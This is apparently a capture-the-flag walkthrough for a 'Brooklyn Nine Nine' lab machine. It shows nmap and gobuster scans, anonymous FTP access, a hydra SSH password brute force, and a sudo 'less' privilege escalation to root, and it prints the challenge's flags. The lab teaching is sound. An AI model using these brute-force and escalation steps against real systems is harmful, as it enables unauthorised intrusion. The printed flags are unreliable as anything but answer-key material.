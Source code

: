 ```yaml
---
custom_edit_url: null
---
```


## Task 1: Deploy and get hacking
### User flag
First, let's scan the target using `nmap`.
```
$ nmap -sC -sV 10.10.255.141
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-06 21:01 IST
Nmap scan report for 10.10.255.141
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.48.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.98 seconds
```
There are three open ports:

| Port | Service | 
| :-: | :-: |
| 21 | ftp |
| 22 | ssh |
| 80 | http |

Let's scan all the directories using `gobuster`.
```
$ gobuster dir -u http://10.10.255.141 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.141
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 718]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
There seems to be nothing of interest in the web directories.

Let's login anonymously through FTP.
```
$ ftp anonymous@10.10.255.141
Connected to 10.10.255.141.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Let's check out the contents of this directory.
```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```
We can download the `note_to_jake.txt` file to our machine using the `get` command.
```
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |***********************************************************************************************************************************************************************************************|   119       22.82 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.85 KiB/s)
```
Let's check what is in the `note_to_jake.txt` file.
```
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
The only service remaining is SSH. That means that the user `jake` has a weak SSH password.

Using `hydra`, we can brute force the password.
```
$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.255.141 -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-06 21:56:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.255.141:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.255.141   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-06 21:59:14
```
Now we know that for the user `jake`, the password is `987654321`.

Let's login through SSH using these credentials.
```
$ ssh jake@10.10.255.141            
The authenticity of host '10.10.255.141 (10.10.255.141)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.88.195' (ED25519) to the list of known hosts.
jake@10.10.255.141's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```
Let's go to the user `holt`.
```
jake@brookly_nine_nine:~$ cd ..
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd holt/
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
```
We can now get the user flag.
```
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```
### Answer
```
ee11cbb19052e40b07aac0ca060c23ee
```

&nbsp;

### Root flag
Let's check what file the `jake` user can execute.
```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
We can got to GTFOBins to find an exploit for the `less` binary.

![2](https://github.com/Knign/Write-ups/assets/110326359/1082bb6e-c589-4c23-9535-3b9ebbea349d)

Copy and paste the `Sudo` exploit in the terminal.
```
jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile
# 
```
You will have to press `ENTER` once again after entering the command.
```
# cd root       
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
### Answer
```
63a9f0ea7bb98050796b649e85481845
```

